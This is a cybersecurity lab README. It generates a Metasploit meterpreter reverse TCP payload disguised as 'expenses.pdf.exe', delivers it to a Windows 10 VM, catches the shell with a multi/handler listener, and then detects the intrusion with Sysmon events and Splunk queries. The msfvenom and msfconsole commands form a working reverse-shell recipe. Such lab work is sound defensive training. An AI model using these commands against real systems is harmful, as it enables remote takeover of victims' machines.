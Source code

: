 # Attack and Dectection Lab: Meterpreter Reverse TCP Payload

## Project Overview

This project simulates an attack using the `meterpreter_reverse_tcp` payload generated by `msfvenom`.
The objective of this project is to compromise a Windows 10 machine and detect the attack using Sysmon and Splunk

## Tools used

- **Kali Linux** (attacker machine)
- **Windows 10** (victim machine)
- **Splunk**
- **Sysmon**
- **Metasploit framework (`msfvenom`, `msfconsole`)**

## Attack Simulation

Payload: `windows/meterpreter/reverse_tcp` \
Tools used: Kali Linux, Metasploit framework (`msfvenom`, `msfconsole`)

### Steps taken

1. **Finding an open port** 

   Find an open port using `nmap -A -Pn <Victim IP address>`

2. **Generating the payload**

   Create a meterpreter reverse tcp payload using msfvenom on the kali linux machine

   ```bash
   msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<host IP address> lport=<host unused port>
   -f exe -o expenses.pdf.exe
   ```

3. **Deliver the payload to the victim machine**

   via email, USB, etc.
4. **Establish a Meterpreter session via msfconsole**

   To receive the reverse shell, Metasploit's `exploit/multi/handler` module was used to be a listener and capture a connection from the malicious payload

   ```bash
   msfconsole
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set lhost <attacker IP address>
   set lport <open port used in (2)>
   exploit
   ```

   ![msf exploit](images/Meterpreter_exploit.png)

## Detection

Tools used: Windows 10, Sysmon, Splunk

### Initial Detection: Unusual Network Connection

Looking at event data with EventCode=3 there was an unusual network connection from `<attacker IP address>` to port `<3389> (RDP)`, indicating a Potential compromise.

Looking at more events using the spl query of:

```bash
 index=sysmon EventCode=3 <attacker IP address>
```

An event is found where:

![Image showing suspicious file](images/Splunk_Meterpreter_Process.png)

From the above we can see

```bash
DestinationIp: <attacker IP address>
sourceIp: <victim IP address>
Image: C:\Users\<User>\Downloads\expenses.pdf.exe
```

Indicating a network connection initiated by an unusual executable file from the victim machine which is a strong indicator of a reverse shell or command and control channel

Using the query of:

```bash
index=sysmon EventCode=1 expenses.pdf.exe
```

![shell spawned from expenses](images/Splunk_Meterpreter_Spawn_Shell.png)

An event indicating cmd.exe was created from the parent process of `expenses.pdf.exe`\
From this we can take the process guid to find what commands have been executed by the shell

```bash
index=sysmon process_guid = <process_guid>
| table _time, ParentImage,  Image, CommandLine
```

From the above query we get the resut:
![Image showing what commands executed](images/Splunk_Meterpreter_Commands_Exec_part_1.png) 
![Image part 2](images/Splunk_Meterpreter_Commands_Exec_part_2.png)\

Through this image resulting from using the process_guid it is discovered that this process executed commands such as whoami, ipconfig, net localgroup, net user.
